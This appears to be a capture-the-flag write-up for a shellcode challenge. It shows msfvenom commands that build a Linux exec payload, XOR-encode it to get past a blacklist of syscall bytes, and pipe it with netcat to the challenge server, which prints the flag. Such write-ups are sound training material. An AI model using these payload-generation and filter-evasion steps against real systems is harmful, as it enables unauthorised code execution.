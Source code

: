 We see that `RWX` has segments, that means that I can inject and run shellcode directly.

```bash
$ msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -o payload.bin

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 46 bytes
Saved as: payload.bin

$ cat payload.bin | nc 34.133.69.112 10001

```

However, there was no response.

![XOR Encoding](img/xorencoding.png)

Then I use a simple xor encoding to bypass the blacklist and get the flag.

```bash
$ msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -b '\x0f\x05\xcd\x80' \
-e x86/call4_dword_xor -o payload_xor.bin

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 72 (iteration=0)
x86/call4_dword_xor chosen with final size 72
Payload size: 72 bytes
Saved as: payload_xor.bin

$ cat payload_xor.bin | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!
umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}

```
